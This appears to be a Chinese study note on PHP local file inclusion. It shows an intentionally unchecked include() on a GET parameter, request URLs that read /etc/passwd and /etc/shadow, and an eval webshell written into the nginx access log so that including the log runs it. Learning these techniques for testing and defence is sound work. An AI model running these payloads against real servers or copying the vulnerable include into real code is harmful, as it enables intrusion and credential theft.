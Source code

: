 ```yaml
---
title: 08.文件包含
description: 文件包含漏洞
published: 1
date: 2023-04-24T10:34:18.575Z
tags: web safe, file
editor: markdown
dateCreated: 2023-04-19T17:26:52.542Z
---
```


<center>文件包含</center>



[toc]





## 文件包含

> 文件包含: ==包含一个文件==
>
> 远程文件(危害大) 和本地文件

```php
# 本地文件
# index.php

$file = $_GET['file'];

if($file){
    include("$file");
    // include_once()
    // require()
    // require_once()

}else{
    echo 'file fail';
}
```

> url构造请求

```shell
http://127.0.0.1/?file=aa.php

# linux 服务器
http://127.0.0.1/?file=/var/www/html/public/aa.php
# linux的敏感信息
http://127.0.0.1/?file=/etc/passwd
http://127.0.0.1/?file=/etc/shadow
```



### 1.小技巧

> 输入到日志中

```shell
http://127.0.0.1/?file=/var/log/nginx/access.log
```

> 一句话木马

```shell
# aa.php
<?php eval($_POST['goer']); ?>

# 请求
http://127.0.0.1/?file=aa.php

# 下载使用中国蚁剑连接
```

> 如果没有文件上传，又想包含文件呢？

```shell
# 写入到日志中
http://127.0.0.1/?file=<?php eval($_POST['goer']); ?>
```





### 2. 提示

> 一般网站都包含一些共同文件

```shell
robots.txt
# 防止爬虫爬取的页面

# 熟悉服务器上资源
```





















